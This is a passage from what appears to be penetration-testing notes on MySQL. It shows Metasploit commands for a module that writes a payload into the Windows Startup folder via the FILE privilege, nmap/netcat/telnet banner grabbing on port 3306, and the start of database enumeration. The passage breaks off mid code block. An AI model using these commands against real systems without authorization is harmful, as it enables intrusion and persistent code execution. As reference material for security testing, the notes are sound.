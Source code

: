 > [!info]-
>
> This module abuses the `FILE` privilege to write a payload
> to Microsoft's All Users Start Up directory
> which will execute every time a user logs in



> [!example]-
>
> ```sh
> msf > use exploit/windows/mysql/mysql_start_up
> msf exploit(mysql_start_up) > show targets
>     ...targets...
> msf exploit(mysql_start_up) > set TARGET < target-id >
> msf exploit(mysql_start_up) > show options
>     ...show and set options...
> msf exploit(mysql_start_up) > exploit
> ```





### Banner Grabbing

Banner grabbing with [[Nmap]]

```sh
nmap -sV -p 3306 <target> -oA mysql-banner
```

Banner grabbing with [[netcat]]

```sh
nc -vn <target> 3306
```

Banner grabbing with [[Telnet/General|Telnet]]

```sh
telnet <target> 3306
```



___




## Database Enumeration

The most important databases on a MySQL server are

- **System Schema** (`sys`)
- **Information Schema** (`information_schema`)


> [!example]-
>
>
> 1. Select `sys` database
>
> ```sh
> mysql> use sys;
> ```
>
> 2. Show database tables
>
> ```sh
> mysql> show tables;
> ```
> ```sh
